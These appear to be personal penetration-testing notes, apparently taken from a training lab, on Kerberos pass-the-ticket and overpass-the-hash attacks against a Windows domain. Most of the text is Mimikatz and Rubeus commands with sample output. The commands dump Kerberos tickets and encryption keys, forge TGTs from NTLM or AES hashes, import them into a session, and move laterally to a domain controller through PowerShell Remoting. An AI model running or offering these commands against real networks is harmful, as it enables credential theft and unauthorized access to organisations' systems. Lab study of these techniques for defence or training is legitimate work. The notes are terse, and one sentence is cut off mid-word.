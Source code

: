 
## pass the ticket

extract kerberos TGT tickets with mimikatz
```
sekurlsa::tickets /export

```
with rubeas
```cmd-session
 Rubeus.exe dump /nowrap

#BASE64ENC
```


## (Pass the keys) Forging TGT Keys from NTLMs

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`. This module will enumerate all key types present for the Kerberos package.

#### Mimikatz - Extract Kerberos keys

```cmd-session

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::ekeys

Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
```


use the keys to forge TGT (admin required)

```cmd-session
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

Forge TGT keys with rubeas `asktgt` by supplying Kerberos e-key: (no admin required)
```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 3f74aa8f08f712f09cd5177b5c1ce50f
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\plaintext'
[+] TGT request successful!
[*] Base64(ticket.kirbi):

doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEXX

```

To learn more about the difference between Mimikatz `sekurlsa::pth` and Rubeus `asktgt`, consult the Rubeus tool documentation [Example for OverPass the Hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash).



this technique forges the ticket and then imports it to current session
```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
Note that now it displays `Ticket successfully imported!`.

## Pass the Ticket (Ptt)


Now that we have some Kerberos tickets, we can use them to move laterally within an environment.
import TGT ticket to session
```
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

*] Action: Import Ticket
[+] ticket successfully imported!

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$
```

#### Convert .kirbi to Base64 Format

```powershell-session
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

doQhAAAAAMCAQKsuDA4CgsuSZcBSo/jMnDjucWNtlDc8ez6...SNIP...
```

pass the ticket can also be done with b64
```cmd-session
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/Vh
```

`kerberos::ptt` and the .kirbi file that contains the ticket we want to import.

#### Mimikatz - Pass the Ticket

Pass the Ticket (PtT) from Windows

```cmd-session
C:\tools> mimikatz.exe 


mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

* File: 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-
 
plaintext@krbtgt-inlanefreight.htb.kirbi': OK
mimikatz # exit
Bye!

c:\tools> dir \\DC01.inlanefreight.htb\c$
```

we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

## remoting after ptt
To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Let's open a new `cmd.exe` and execute `mimikatz.exe`, then import the ticket we collected using `kerberos::ptt`

#### Mimikatz - Pass the Ticket for lateral movement.
```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

* File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

mimikatz # exit
Bye!
```

with rubeas
```cmd-session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
f `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

```cmd-session

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```
